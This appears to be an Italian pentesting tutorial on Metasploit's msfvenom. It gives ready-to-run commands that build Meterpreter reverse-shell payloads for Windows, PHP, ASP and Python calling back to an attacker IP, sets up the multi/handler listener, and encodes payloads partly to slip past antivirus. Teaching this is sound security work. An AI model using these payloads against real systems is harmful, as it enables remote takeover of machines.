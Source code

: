 ### Che cos’è?

`Msfvenom` è uno strumento versatile utilizzato per generare payload malevoli o exploit nel contesto di test di penetrazione e valutazioni di sicurezza. È parte del framework Metasploit, un popolare toolkit open-source per il penetration testing sviluppato da Rapid7.

### Funzioni principali di Msfvenom:

1. **Creazione di Payload**:
    - `Msfvenom` permette di generare payload, ovvero porzioni di codice che, una volta eseguite su un sistema target, possono dare accesso o eseguire comandi sul sistema compromesso. Questi payload possono essere di diversi tipi, come reverse shell, bind shell, meterpeter, ecc.
    - MSFvenom può essere usato per creare payload in quasi tutti i formati, a seconda della configurazione del sistema di destinazione. In questi esempi, LHOST sarà l'indirizzo IP della macchina attaccante e LPORT sarà la porta su cui il gestore si metterà in ascolto. Formato Linux Executable and Linkable (elf):
    - Windows: **msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.x.x LPORT=XXXX -f exe > rev_shell.exe**
    - PHP: **msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.x.x LPORT=XXXX -f raw > rev_shell.php**
    - ASP: **msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.x.x LPORT=XXXX -f asp > rev_shell.asp**
    - Python: **msfvenom -p cmd/meterpreter/reverse_python LHOST=10.10.x.x LPORT=XXXX -f raw > rev_shell.py**

Tutti gli esempi sopra riportati sono payload inversi. È necessario che il modulo **exploit/multi/handler** sia in ascolto sulla macchina attaccante per funzionare come handler. Impostare il gestore con i parametri payload, LHOST e LPORT. Questi valori saranno gli stessi utilizzati durante la creazione del payload di msfvenom.

- **msfconsole`use exploit/multi/handler`** Multi Handler per ricevere la connessione in arrivo. Il modulo può essere utilizzato con il

![image](https://github.com/user-attachments/assets/4aba1d5d-1cb4-4cd2-a053-95354f44b8c9)

1. **Encodifica del Payload**:
    - Può encodificare i payload per evitare il rilevamento da parte dei software antivirus e altri meccanismi di difesa. L'encoding serve a trasformare il codice del payload in una forma che risulti meno sospetta per i sistemi di difesa.
    - Contrariamente a quanto si pensa, gli **encoder non mirano** a **bypassare l'antivirus** installato sul sistema di destinazione. Come suggerisce il nome, codificano il payload. Sebbene possa essere efficace contro alcuni software antivirus, utilizzare moderne tecniche di offuscamento o metodi di apprendimento per **iniettare shellcode è una soluzione** migliore al problema. L'esempio seguente mostra l'utilizzo della codifica (con il **`-e`**parametro. La versione PHP di Meterpreter è stata codificata in Base64 e il formato di output era **`raw`**.

![image](https://github.com/user-attachments/assets/6f43f7e7-b817-48eb-80ae-aeaa567c23d7)

2. **Creazione di File Malevoli**:
    - `Msfvenom` può creare file eseguibili malevoli per diverse piattaforme, come Windows (.exe), Linux (.elf), macOS, Android (.apk), e altri formati, come PDF, Word (.docx), e così via.
3. **Integrazione con Metasploit**:
    - I payload generati con `Msfvenom` possono essere facilmente integrati con Metasploit per eseguire exploit e avere un controllo più granulare sul sistema target.
4. **Opzioni di Output Flessibili**:
    - Consente di salvare il payload in vari formati (binario, raw, eseguibile, ecc.), offrendo grande flessibilità per diverse fasi di un attacco.

### Esempio di utilizzo:

Un esempio comune di utilizzo di `Msfvenom` potrebbe essere la creazione di un payload per Windows che apre una reverse shell, consentendo all'attaccante di connettersi al sistema target:

```bash
bashCopia codice
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe > payload.exe

```

In questo esempio:

- `p windows/meterpreter/reverse_tcp`: specifica il payload da utilizzare (in questo caso, una reverse shell di Meterpreter).
- `LHOST=192.168.1.100`: definisce l'indirizzo IP del sistema dell'attaccante che riceverà la connessione.
- `LPORT=4444`: definisce la porta sul sistema dell'attaccante.
- `f exe`: specifica il formato di output (in questo caso, un file .exe).
- `> payload.exe`: salva il payload generato in un file chiamato `payload.exe`.

### Contesto di utilizzo:

- **Test di Penetrazione**: Gli esperti di sicurezza utilizzano `Msfvenom` per testare la robustezza delle difese di una rete, simulando attacchi reali.
- **Analisi delle Minacce**: Aiuta gli analisti a comprendere meglio come i malware possono essere creati e distribuiti, migliorando così le contromisure.
- **Educazione e Formazione**: Utilizzato in contesti educativi per insegnare la sicurezza informatica e la creazione di exploit.

Nota che l'uso di `Msfvenom` e di altri strumenti di hacking è legale solo in contesti autorizzati, come test di penetrazione su sistemi che hai il diritto di testare. L'uso non autorizzato è illegale e può portare a gravi conseguenze legali.

# Formati di Output

- **msfvenom --list formats** utilizzato per elencare i formati di output supportati
- **msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.186.44 -f raw -e php/base64**
    - **-e** paramentro codifica (encoding)
    - **-f raw** formato output
    - -**e php/base64** codifica in Base 64
